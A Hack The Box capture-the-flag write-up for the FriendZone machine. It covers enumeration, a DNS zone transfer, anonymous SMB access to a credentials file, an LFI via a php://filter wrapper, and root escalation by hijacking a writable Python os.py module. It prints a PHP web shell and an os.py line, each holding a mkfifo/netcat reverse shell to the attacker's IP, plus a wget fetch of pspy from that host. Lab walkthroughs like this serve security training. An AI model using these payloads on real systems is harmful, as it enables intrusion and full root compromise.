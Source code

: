 ```yaml
---
title: "FriendZone — Hack The Box [Write-up]"
author: 0x3ashry
description: "Writeup for FriendZone Hackthebox Machine"
date: 2022-05-06 19:00:00 +0200
categories: [HackTheBox]
tags: [HTB, Linux]
pin: true
---
```


![](/img/HTB/FriendZone/FriendZone.png)

FriendZone was a relatively easy box, but as far as easy boxes go, it had a lot of enumeration and garbage trolls to sort through. In all the enumeration, I’ll find a php page with an LFI, and use SMB to read page source and upload a webshell. I’ll uprivesc to the next user with creds from a database conf file, and then to root using a writable python module to exploit a root cron job calling a python script.


#### Used Tools:
- Nmap
- Dig
- Smbmap
- Smbclient
- LinPeas
- Pspy


## 1. SCANNING & ENUMERATION

I will start with nmap and the -A parameter to enable OS detection, version detection, script scanning, and traceroute and append the output to tee command which save the in a file named “nmap” and also show the output on the screen.

![](/img/HTB/FriendZone/img (1).png)

Nmap is done with open ports:
21 --> FTP
22 --> SSH
53 --> DNS
80 --> HTTP
139 --> SMB
443 --> HTTPS
445 --> SMB

Tried anonymous login with FTP but unfortunately didn't work:

![](/img/HTB/FriendZone/img (2).png)

Let's Jumb to the webserver... 

![](/img/HTB/FriendZone/img (3).png)

Just a static web page, I tried directory bruteforcing it but didn't reach anything...
Note: There is a domain name down there *friendzoneportal.red*

We know there is Port **53** open which is domain may be we can do a zone transfer for that domain. I added friedzone.red and friendzoneportal.red in /etc/hosts

```bash
dig axfr @10.10.10.123 friendzone.red
```

![](/img/HTB/FriendZone/img (4).png)

Successfully found 3 new subdomains, Added them to my /etc/hosts

I tried to access **administrator1.friendzone.red** but found a login form with username and password

![](/img/HTB/FriendZone/img (5).png)

Tried SQLinjection but didn't succeed, So I checked the other two subdomains

**Upload.friendzone.red** --> Have an upload button and after uploading an image nothing interested happen
**hr.friendzone.red** --> Not Found


Let's check **SMB** Service to see if there is any file available

```bash
smbmap -H 10.10.10.123 -R
```

![](/img/HTB/FriendZone/img (6).png)

Found there is a file called **creds.txt** in general which have a read access


## 2. EXPLOITATION:


Let's try read general/creds.txt

```bash
smbclient -U "" //10.10.10.123/general
```

![](/img/HTB/FriendZone/img (7).png)

Got admin credentials, Let's try them in `administrator1.friendzone.red`

![](/img/HTB/FriendZone/img (8).png)

Logged in Successfully to page contain a message to visit **/dashboard**

![](/img/HTB/FriendZone/img (9).png)

Visiting /dashboard found a page that appears tp be dealing with some sort of images and have a missing parameters due to begginer development and saying to add the missing parameters

`image_id=a.jpg&pagename=timestamp`


![](/img/HTB/FriendZone/img (10).png)

Adding the missing parameters, The Image successfully appeared with something called timestamp displayed at the end

![](/img/HTB/FriendZone/img (11).png)

Refreshing the page a lot of times the timestamp kept changing which indicates that it must be a php page that has the .php added automatically, So I tried to view it using LFI Wrappers...

Let start with "PHP wrapper" to bypass LFI functionality.

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=timestamp`

We got a base64 string of the .php page content

![](/img/HTB/FriendZone/img (12).png)

Its Working...

The `Development` share, we saw from `smbmap` has **writable permission** by the guest so why dont we upload a reverse shell there and try to access from this page. 

Write this exploit to a file named shell.php:

```php
<?php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 4444 >/tmp/f');
?>
```

Then reopen the smbclient but now in the development directory and upload the shell

```bash
smbclient -U "" //10.10.10.123/development
put shell.php
```

![](/img/HTB/FriendZone/img (13).png)

Create a listener on my local machine:

```bash
nc -nlvp 4444
```

We know that the smb files are located under the `/etc` from our previous enumeration, So we will access our shell which is under `/etc/Development/shell` without .php because it is automatically added

![](/img/HTB/FriendZone/img (14).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOM ! We successfully gained a shell for `www-data` user and the user flag is located at `/home/friend/user.txt`

![](/img/HTB/FriendZone/img (15).png)


## 3. PRIVILEGE ESCALATION:

In the /var/www there is a file called mysql_data.conf that has credentials of user `friend`, So we used it to upgrade from `www-data` to `friend`

![](/img/HTB/FriendZone/img (16).png)

I Also used these creds to obtain an `ssh` access with them

Then I ran *linPeas* script but it didn't show any thing I can use so I headed to see the `pspy` which monitor linux processes without root permissions.

But firstly I must upload it to the machine, and we all knew that /etc/development is writable so I will put the script there.

At my local machine:

```bash
kali@kali python3 -m http.server 8080
````

At friendZone:

```bash
wget http://10.10.16.10:8080/pspy64
```

![](/img/HTB/FriendZone/img (17).png)

After sometime this appeared, root runs `reporter.py` every minute

![](/img/HTB/FriendZone/img (18).png)

The script doesn't do anything except it runs the `os` script in the import line

![](/img/HTB/FriendZone/img (19).png)

From my previous enumeration in linPeas I found that `/usr/lib/python2.7/os.py` is writable. So what if we put a reverse shell in this library and when the reporter.py is reruned by root it will execute the shell with root privillages. Let's Try it...

Firstly we will put reverse shell in os.py

```python
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.10 8888 >/tmp/f")
```

![](/img/HTB/FriendZone/img (20).png)

Then we will save and open a listener in a new tab and wait a while for a connection...

![](/img/HTB/FriendZone/img (21).png)

BOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOM !!!! Now we are root :D

Thank you so much for reading and I hope you learned a lot as I did ❤

#### ***0x3ashry***